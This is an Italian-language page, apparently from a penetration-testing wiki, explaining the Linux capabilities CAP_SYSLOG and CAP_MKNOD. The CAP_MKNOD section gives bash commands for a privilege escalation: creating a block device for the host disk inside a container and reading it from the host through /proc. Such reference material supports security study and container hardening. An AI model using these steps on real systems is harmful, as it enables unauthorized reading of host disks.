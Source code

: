 ## CAP\_SYSLOG

[**CAP\_SYSLOG**](https://man7.org/linux/man-pages/man7/capabilities.7.html) è stato separato dalla più ampia **CAP_SYS_ADMIN** in Linux 2.6.37, concedendo specificamente la possibilità di utilizzare la chiamata di sistema `syslog(2)`. Questa capacità consente la visualizzazione degli indirizzi del kernel tramite `/proc` e interfacce simili quando l'impostazione `kptr_restrict` è impostata su 1, che controlla l'esposizione degli indirizzi del kernel. A partire da Linux 2.6.39, il valore predefinito per `kptr_restrict` è 0, il che significa che gli indirizzi del kernel sono esposti, anche se molte distribuzioni lo impostano su 1 (nascondi gli indirizzi tranne da uid 0) o 2 (nascondi sempre gli indirizzi) per motivi di sicurezza.

Inoltre, **CAP_SYSLOG** consente di accedere all'output di `dmesg` quando `dmesg_restrict` è impostato su 1. Nonostante queste modifiche, **CAP_SYS_ADMIN** conserva la capacità di eseguire operazioni di `syslog` a causa di precedenti storici.

## CAP\_MKNOD

[**CAP\_MKNOD**](https://man7.org/linux/man-pages/man7/capabilities.7.html) estende la funzionalità della chiamata di sistema `mknod` oltre alla creazione di file regolari, FIFO (named pipes) o socket di dominio UNIX. Consente specificamente la creazione di file speciali, che includono:

- **S_IFCHR**: File speciali di carattere, che sono dispositivi come terminali.
- **S_IFBLK**: File speciali di blocco, che sono dispositivi come dischi.

Questa capacità è essenziale per i processi che richiedono la capacità di creare file di dispositivo, facilitando l'interazione diretta con l'hardware tramite dispositivi di carattere o blocco.

È una capacità predefinita di Docker ([https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19](https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19)).

Questa capacità consente di eseguire escalation di privilegi (attraverso la lettura completa del disco) sull'host, in queste condizioni:

1. Avere accesso iniziale all'host (non privilegiato).
2. Avere accesso iniziale al container (privilegiato (EUID 0) ed effettivo `CAP_MKNOD`).
3. Host e container devono condividere lo stesso namespace utente.

**Passaggi per creare e accedere a un dispositivo di blocco in un container:**

1. **Sull'host come utente standard:**
- Determina il tuo ID utente corrente con `id`, ad esempio `uid=1000(standarduser)`.
- Identifica il dispositivo di destinazione, ad esempio `/dev/sdb`.

2. **All'interno del container come `root`:**
```bash
# Create a block special file for the host device
mknod /dev/sdb b 8 16
# Set read and write permissions for the user and group
chmod 660 /dev/sdb
# Add the corresponding standard user present on the host
useradd -u 1000 standarduser
# Switch to the newly created user
su standarduser
```
3. **Tornando all'host:**
```bash
# Locate the PID of the container process owned by "standarduser"
# This is an illustrative example; actual command might vary
ps aux | grep -i container_name | grep -i standarduser
# Assuming the found PID is 12345
# Access the container's filesystem and the special block device
head /proc/12345/root/dev/sdb
```
Questo approccio consente all'utente standard di accedere e potenzialmente leggere i dati da `/dev/sdb` attraverso il container, sfruttando i namespace utente condivisi e i permessi impostati sul dispositivo.
